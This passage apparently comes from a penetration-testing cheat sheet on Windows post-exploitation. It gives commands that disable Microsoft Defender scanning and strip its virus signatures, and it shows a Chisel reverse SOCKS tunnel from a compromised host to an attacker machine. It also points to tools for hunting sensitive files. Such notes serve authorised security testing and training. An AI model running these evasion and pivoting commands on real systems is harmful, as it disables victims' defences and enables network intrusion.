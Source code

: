 ```powershell
# Disable realtime monitoring altogether
Set-MpPreference -DisableRealtimeMonitoring $true

# Only disables scanning for downloaded files or attachments
Set-MpPreference -DisableIOAVProtection $true
```

PowerShell

As an alternative to disabling Defender, you can leave it enabled and just remove all virus signatures from it.

```powershell
"C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

PowerShell

#### Chisel proxying <a href="#chisel-proxying" id="chisel-proxying"></a>

If you need to proxy traffic over a compromised Windows machine, [Chisel](https://github.com/jpillora/chisel) (or [SharpChisel](https://github.com/shantanu561993/SharpChisel)) is a good choice. Chisel allows port forwarding, but my favorite technique is setting up a reverse SOCKS proxy on the target machine, allowing you to tunnel any traffic over the target system.

On our attacking machine (Linux in this case), we start a Chisel server on port 80 in reverse SOCKS5 mode.

```bash
sudo ./chisel server -p 80 --reverse --socks5
```

Bash

Then, on our compromised target system, we connect to this server and tell it to proxy all traffic over it via the reverse SOCKS5 tunnel.

```powershell
.\chisel.exe client 192.168.49.67:80 R:socks
```

PowerShell

A proxy is now open on port 1080 of our linux machine. We can now use e.g. ProxyChains to tunnel over the target system.

#### Juicy files <a href="#juicy-files" id="juicy-files"></a>

There are lots of files that may contain interesting information. Tools like [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) or collections like [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) may help in identifying juicy files (for privesc or post-exploitation).

Below is a list of some files I have encountered to be of relevance. Check files based on the programs and/or services that are installed on the machine.

> In addition, don’t forget to enumerate any local databases with `sqlcmd` or `Invoke-SqlCmd`!

